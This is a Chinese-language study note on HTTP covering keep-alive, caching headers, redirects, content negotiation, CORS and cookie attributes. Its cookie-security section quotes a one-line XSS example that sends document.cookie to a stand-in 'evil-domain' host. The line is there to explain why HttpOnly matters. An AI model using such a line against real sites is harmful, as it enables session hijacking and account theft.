

### 长连接
打开一个 TCP 连接, 需要经过三次握手. 在浏览器中打开一个页面, 经常需要连续发送多个 HTTP 请求来请求 CSS, JS, 图片等资源. 如果每次发送一个 HTTP 请求都要打开一个 TCP 连接, 经过三次握手, 效率就比较低. HTTP 1.1 中, Connection 默认设置成 `Connection: Keep-Alive`, 它表明打开一个 TCP 连接后, 服务器会等待一小段时间再关闭连接, 在这段时间内的请求都会复用这个 TCP 连接.

另外, Chrome 浏览器在请求多个资源的时候会并发地请求, 默认一口气打开 6 个连接, 第六个资源以后的请求要等前六个资源有完成了空出来连接才会复用.

### 缓存与验证
#### 在响应消息头中可以设置 Cache-Control.
```
Cache-Control: private
Cache-Control: public
```

"public" 表示该响应可以被任何中间人(比如中间代理, CDN 等)缓存. 而 "private" 则表示该响应中间人不能缓存此响应, 该响应只能应用于浏览器私有缓存中.

```
Cache-Control: no-store
Cache-Control: no-cache
```
Cache-Control: no-store 禁止进行缓存: 缓存中不得存储任何关于客户端请求和服务端响应的内容. 之后客户端发起的请求都会直接到服务器请求资源.

Cache-Control: no-cache 强制确认缓存: 之后客户端的请求发出时, 缓存会将此请求发到服务器(该请求应该会带有与本地缓存相关的验证字段), 服务器端会验证请求中所描述的缓存是否过期, 若未过期, 返回状态码是 304 Not Modified 的响应消息, 这时浏览器才可以使用本地缓存副本.

Cache-Control: max-age=N 是距离请求发起的时间的秒数, 超过这个秒数, 缓存失效. (Expires 响应头是一个日期,  过了这个日期, 响应过期).

#### 缓存验证:
一个响应头的例子:
```
Cache-Control: 'max-age = 2000, no-cache'
Last-Modified: '20xx-10-01'
Etag: '384jskf'
```
如果缓存响应中的 max-age 过期或者设置了 no-cache, 就要进行缓存验证. 浏览器会构造带有如下请求的请求消息发送给服务器
```
If-Modified-Since: '20xx-10-01'
If-None-Match: '384jskf'
```
服务器确认资源没有更新就会返回状态码是 304 Not Modified 的响应消息, 这时浏览器才可以使用本地缓存副本, 如果服务器确认资源过期, 则返回更新后的内容.

### 重定向
浏览器访问一个 URL, 如果这个资源更换了地址, 服务端会返回一个状态码是 301(或 302), 请求头带有 Location 的响应消息. 如果状态码是 301, 这个新的地址会被永久缓存, 以后每次输入旧地址, 浏览器会在本地自动更换成新地址, 再以新地址去访问服务器. 如果状态码是 302, 那么表示这个新地址是临时的, 浏览器不会更换成新地址, 仍然以输入的旧地址去访问服务器.

- 301 永久重定向
- 302 临时重定向
- 303 See Other.

302 是不会改变请求的方法, 如果请求方法是 POST 的话, 重定向的请求也应该是 POST. 而对于 303, 使用 POST 请求的话, 重定向的请求应该是 GET 请求.

典型应用场景:
- 对于不安全请求的临时响应. 不安全请求会修改服务器端的状态, 应该避免用户无意的重复操作. 一般地, 你并不想要你的用户重复发送  PUT, POST 或 DELETE 请求. 假如你仅仅为该类请求返回响应的话, 简单地点击刷新按钮就会(可能会有一个确认信息)导致请求的重复发送. 在这种情况下, 服务器可以返回一个 303 (See Other) 响应, 其中含有合适的响应信息. 如果刷新按钮被点击的话, 只会导致该页面被刷新, 而不会重复提交不安全的请求.
- 对于耗时请求的临时响应. 一些请求的处理会需要比较长的时间, 比如有时候 DELETE 请求会被安排为稍后处理. 在这种情况下, 会返回一个 303 (See Other)  重定向响应, 该响应链接到一个页面, 表示请求的操作已经被列入计划, 并且最终会通知用户操作的进展情况.

### 内容协商
在服务器上, 一个资源, 连同它的各种展现形式, 可能会共享一个特定的 URL. 客户端可以设置特定的 HTTP 首部, 来获取它想要的形式, 这种叫做主动协商机制. 这些头部常见的有: Accept, Accept-Charset, Accept-Encoding, Accept-Language.

- Accept 首部列举了用户代理希望接收的媒体资源的 MIME 类型,
- Accept-Encoding 首部明确说明了(接收端)可以接受的内容编码形式(所支持的压缩算法).
- Accept-Language 首部用来提示用户期望获得的自然语言的优先顺序.

服务器响应的消息头部则会使用 Content-Type, Content-Encoding, Content-Language 来表明返回的内容的媒体资源的 MIME 类型, 编码形式, 语言.

<Center>
  
</Center>

另外还有一种协商机制: 代理驱动型内容协商机制, 或称为响应式协商机制. 在这种协商机制中, 当面临不明确的请求时, 服务器会返回一个页面, 其中包含了可供选择的资源的链接. 资源呈现给用户, 由用户做出选择.

<Center>
  
</Center>

注意到, 服务器第一次返回的响应消息的状态码 300 (Multiple Choices) 在这里出现了.

请求消息头部也可以有 Content-Type: 在通过 HTML form 提交生成的 `POST` 请求中, 请求头的 Content-Type 由 <form> 元素上的 enctype 属性指定, 有以下三种:

- `application/x-www-form-urlencoded`,
- `multipart/form-data`,
- `text/plain`.

`application/x-www-form-urlencoded` 数据被编码成以 '&' 分隔的键-值对, 同时以 '=' 分隔键和值. 非字母或数字的字符会被 percent-encoding: 这也就是为什么这种类型不支持二进制数据的原因 (应使用 `multipart/form-data` 代替). 比如文件上传的时候.


```HTML
<form action="/" method="post" enctype="multipart/form-data">
  <input type="text" name="description" value="some text">
  <input type="file" name="myFile">
  <button type="submit">Submit</button>
</form>
```
请求头看起来像这样:
```
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

---------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
---------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
---------------------------974767299852498929531610575
```
### 跨域资源共享(CORS)
当一个资源从与该资源本身所在的服务器不同的域或端口请求一个资源时, 资源会发起一个跨域 HTTP 请求. 这个请求会发给服务器, 服务器也会返回响应, 但是响应中如果没有设置 Access-Control-Allow-Origin 来允许跨域的话, 浏览器并不会把它显示出来, 而会报错. `src, img` 等标签是允许跨域的, 但是由 `XMLHttpRequest` 或 `Fetch` 发起的跨域 HTTP 请求则需要服务器端设置消息头来允许 CORS.

另外, 某些情况下, 浏览器必须首先使用 OPTIONS 方法发起一个预检请求, 从而获知服务端是否允许该跨域请求. 这些情况包括使用 Get, PSOT, HEAD 以外的方法, 使用自定义的请求头, 使用 `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain` 以外的 `Content-Type` 等等.

一个预先请求的例子:

请求消息头
```
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type
Credentials: true
```

响应消息头
```
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 8000
```
预请求完成之后, 浏览器才会发送实际请求.

Fetch 与 CORS 的一个有趣的特性是, 可以基于  HTTP cookies 和 HTTP 认证信息发送身份凭证. 一般而言, 对于跨域 Fetch 请求, 浏览器不会发送身份凭证信息. 如果要发送凭证信息, 需要设置 `Credentials = true`
### Cookies
HTTP Cookie 是服务器发送到用户浏览器并保存在本地的一小块数据, 它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上. 通常, 它用于告知服务端两个请求是否来自同一浏览器, 如保持用户的登录状态. Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能.

Cookie 主要用于以下三个方面:

- 会话状态管理(如用户登录状态, 购物车, 游戏分数或其它需要记录的信息)
- 个性化设置(如用户自定义设置, 主题等)
- 浏览器行为跟踪(如跟踪分析用户行为等)

客户端数据的存储不再推荐使用 Cookies, 而是建议使用 Web Storage 或 IndexedDB.

#### 创建 Cookie
服务器可以在响应头里面添加 `Set-Cookie: yummy_cookie=choco`, 浏览器请求时请求头上自动带上 `Cookie: yummy_cookie=choco`.

#### 属性
- 标记 Secure 的 Cookie 应通过被 HTTPS 协议加密过的请求发送给服务端
- 标记 HttpOnly 使得 Document.cookie API 无法访问 Cookie
- Max-Age: Cookie 指的是有效时长, Expires 指的是到期时间(不建议使用, 因为系统时间设置可能有问题)
- Domain 标识指定了哪些主机可以接受 Cookie. 如果不指定, 默认为当前文档的主机(不包含子域名). 如果指定了 Domain, 则一般包含子域名. 例如, 如果设置 Domain=mozilla.org, 则 Cookie 也包含在子域名中(如 developer.mozilla.org).
#### 安全
1. 会话劫持和 XSS: 在 Web 应用中, Cookie 常用来标记用户或授权会话. 因此, 如果 Web 应用的 Cookie 被窃取, 可能导致授权用户的会话受到攻击. 例如使用来窃取 Cookie, `(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;` HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击.

2. 跨站请求伪造(CSRF): 比如在不安全聊天室或论坛上的一张图片, 它实际上是一个给你银行服务器发送提现的请求:
    ```html
    
    ```

      当你打开含有了这张图片的 HTML 页面时, 如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效(还没有其它验证步骤), 你银行里的钱很可能会被自动转走.
### GET 和 POST 区别
<center>
  
</center>
